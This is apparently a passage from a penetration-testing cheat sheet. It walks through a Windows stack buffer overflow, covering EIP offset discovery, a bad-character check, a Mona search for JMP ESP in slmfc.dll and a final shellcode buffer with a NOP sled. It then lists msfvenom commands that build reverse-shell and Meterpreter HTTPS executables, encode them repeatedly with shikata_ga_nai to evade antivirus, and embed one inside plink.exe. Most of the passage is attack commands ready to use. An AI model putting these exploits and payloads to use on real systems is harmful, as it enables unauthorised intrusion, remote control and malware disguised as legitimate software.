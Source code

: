     *   Nmap DNS Fuzzer  
        nmap --script dns-fuzz --script-args timelimit=2h $ip -d

*   MSFvenom  
    [_https://www.offensive-security.com/metasploit-unleashed/msfvenom/_](http://web.archive.org/web/20171113221652/https://www.offensive-security.com/metasploit-unleashed/msfvenom/)

*   Windows Buffer Overflows

    *   Controlling EIP

             locate pattern_create
             pattern_create.rb -l 2700
             locate pattern_offset
             pattern_offset.rb -q 39694438

    *   Verify exact location of EIP - [*] Exact match at offset 2606

            buffer = "A" \* 2606 + "B" \* 4 + "C" \* 90

    *   Check for “Bad Characters” - Run multiple times 0x00 - 0xFF

    *   Use Mona to determine a module that is unprotected

    *   Bypass DEP if present by finding a Memory Location with Read and Execute access for JMP ESP

    *   Use NASM to determine the HEX code for a JMP ESP instruction

            /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb

            JMP ESP  
            00000000 FFE4 jmp esp

    *   Run Mona in immunity log window to find (FFE4) XEF command

            !mona find -s "\xff\xe4" -m slmfc.dll  
            found at 0x5f4a358f - Flip around for little endian format
            buffer = "A" * 2606 + "\x8f\x35\x4a\x5f" + "C" * 390

    *   MSFVenom to create payload

            msfvenom -p windows/shell_reverse_tcp LHOST=$ip LPORT=443 -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d"

    *   Final Payload with NOP slide

            buffer="A"*2606 + "\x8f\x35\x4a\x5f" + "\x90" * 8 + shellcode

    *   Create a PE Reverse Shell  
        msfvenom -p windows/shell_reverse_tcp LHOST=$ip LPORT=4444 -f  
        exe -o shell_reverse.exe

    *   Create a PE Reverse Shell and Encode 9 times with Shikata_ga_nai  
        msfvenom -p windows/shell_reverse_tcp LHOST=$ip LPORT=4444 -f  
        exe -e x86/shikata_ga_nai -i 9 -o shell_reverse_msf_encoded.exe

    *   Create a PE reverse shell and embed it into an existing executable  
        msfvenom -p windows/shell_reverse_tcp LHOST=$ip LPORT=4444 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o shell_reverse_msf_encoded_embedded.exe

    *   Create a PE Reverse HTTPS shell  
        msfvenom -p windows/meterpreter/reverse_https LHOST=$ip LPORT=443 -f exe -o met_https_reverse.exe
